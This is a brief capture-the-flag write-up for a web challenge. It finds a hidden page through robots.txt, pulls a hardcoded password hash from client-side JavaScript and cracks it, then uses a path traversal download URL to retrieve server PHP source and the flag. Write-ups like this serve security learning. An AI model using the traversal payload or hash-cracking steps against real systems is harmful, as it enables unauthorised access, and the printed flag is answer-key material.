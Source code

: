 After a **dirbscan** I find `robots.txt` and I see:

```
/secret_172346606e1d24062e891d537e917a90.html
```

This leads me to a login page. In the source code I find:

```javascript
const validUsername = "agent_1337";
const validPasswordHash = "91a915b6bdcfb47045859288a9e2bd651af246f07a083f11958550056bed8eac";

function getCredentials() {
    return {
        username: validUsername,
        passwordHash: validPasswordHash,
    };
}
```

I use **Crackstation** on the hash and get:

```
intel420
```

I log in and land on a portal with 4 images that i can download.

I test the query used for downloading images and manage to download the PHP script using:

```
https://pizzaparadise.ctf.intigriti.io/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php?download=%2Fassets%2Fimages%2F../../topsecret_a9aedc6c39f654e55275ad8e65e316b3.php
```

Inside I find:

```
flag = 'INTIGRITI{70p_53cr37_m15510n_c0mpl373}';
```

✅ **Flag:** `INTIGRITI{70p_53cr37_m15510n_c0mpl373}`